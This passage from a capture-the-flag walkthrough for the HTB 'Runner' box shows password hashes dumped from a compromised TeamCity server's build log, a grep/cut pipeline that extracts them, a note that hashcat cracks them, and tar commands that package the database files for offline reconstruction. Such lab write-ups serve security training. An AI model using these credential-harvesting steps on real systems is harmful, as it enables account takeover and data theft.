     INSERT INTO USERS VALUES(14,'h454nsec7507','$2a$07$xp8n/ufXZuHMSnVV.mNJMuc7qFuqrkWWfhgr/qidkIQ/xHVwGE1J2',NULL,'',NULL,'BCRYPT')
    INSERT INTO USERS VALUES(14,'h454nsec7507',NULL,NULL,'',NULL,NULL)
    INSERT INTO USERS VALUES(14,'h454nsec7507',NULL,NULL,NULL,NULL,NULL)
    INSERT INTO USERS VALUES(15,'0xdf','$2a$07$RrMLodXls1pT2GGXyjKNfOqWn3Qayou/6pIWB0spPST9XkCcJFUvS',NULL,'',NULL,'BCRYPT')
    INSERT INTO USERS VALUES(15,'0xdf',NULL,NULL,'',NULL,NULL)
    INSERT INTO USERS VALUES(15,'0xdf',NULL,NULL,NULL,NULL,NULL)
    INSERT INTO USERS VALUES(1,'admin','$2a$07$KMVXg58cjd7Z3Qb4BqhOPe/rY.kCuVOVThrWzDh4JPmTBhZutSrKu','John','john@runner.htb',1714139877194,'BCRYPT')
    INSERT INTO USERS VALUES(1,'admin','$2a$07$KMVXg58cjd7Z3Qb4BqhOPe/rY.kCuVOVThrWzDh4JPmTBhZutSrKu','John','john@runner.htb',1714140908984,'BCRYPT')
    INSERT INTO USERS VALUES(1,'admin','$2a$07$KMVXg58cjd7Z3Qb4BqhOPe/rY.kCuVOVThrWzDh4JPmTBhZutSrKu','John','john@runner.htb',1714141528766,'BCRYPT')
    INSERT INTO USERS VALUES(1,'admin','$2a$07$KMVXg58cjd7Z3Qb4BqhOPe/rY.kCuVOVThrWzDh4JPmTBhZutSrKu','John','john@runner.htb',1714141868404,'BCRYPT')
    INSERT INTO USERS VALUES(1,'admin','$2a$07$KMVXg58cjd7Z3Qb4BqhOPe/rY.kCuVOVThrWzDh4JPmTBhZutSrKu','John','john@runner.htb',1714143286180,'BCRYPT')
    INSERT INTO USERS VALUES(1,'admin','$2a$07$KMVXg58cjd7Z3Qb4BqhOPe/rY.kCuVOVThrWzDh4JPmTBhZutSrKu','John','john@runner.htb',1714144019712,'BCRYPT')
    INSERT INTO USERS VALUES(2,'matthew','$2a$07$CWaVqpfDQTp0kEPNo0vShOqX4HwkdVJUAsuAYj4GBwORKcYrAeExO','Matthew','matthew@runner.htb',1714143247474,'BCRYPT')
    INSERT INTO USERS VALUES(2,'matthew','$2a$07$CWaVqpfDQTp0kEPNo0vShOqX4HwkdVJUAsuAYj4GBwORKcYrAeExO','Matthew','matthew@runner.htb',1714144064353,'BCRYPT')
    INSERT INTO USERS VALUES(2,'matthew','$2a$07$CWaVqpfDQTp0kEPNo0vShOqX4HwkdVJUAsuAYj4GBwORKcYrAeExO','Matthew','matthew@runner.htb',1714144166245,'BCRYPT')



matthew and john have `@runner.htb` emails.



    tcuser@647a82f29ca0:/data/teamcity_server/datadir/system$ cat buildserver.log | grep -i "INSERT INTO USERS" | grep runner.htb | cut -d"'" -f4 | sort -u
    $2a$07$CWaVqpfDQTp0kEPNo0vShOqX4HwkdVJUAsuAYj4GBwORKcYrAeExO
    $2a$07$KMVXg58cjd7Z3Qb4BqhOPe/rY.kCuVOVThrWzDh4JPmTBhZutSrKu



These two hashes crack quickly with `hashcat`, both to "password", which
isn't useful for the box. These are different from what I'll collect in
the alternative step.

#### Recreate the Database

It seems how much is in the previous log file depends on the current
state of the machine. I am lucky enough to find of what I need in here,
but other times (especially on a fresh instance) it is much more sparse.
To get the current and complete picture, I'll grab all the `buildserver`
files (`zip` isn't on the box, but `tar` is):



    tcuser@647a82f29ca0:/data/teamcity_server/datadir/system$ tar -cf buildserver.tar buildserver.*
    tcuser@647a82f29ca0:/data/teamcity_server/datadir/system$ tar tf buildserver.tar 
    buildserver.data
    buildserver.lck
    buildserver.log
    buildserver.properties
    buildserver.script
    buildserver.tmp/
    tcuser@647a82f29ca0:/data/teamcity_server/datadir/system$ md5sum buildserver.tar 
    d6ad814b8302bd69015cc285ec5b8a99  buildserver.tar
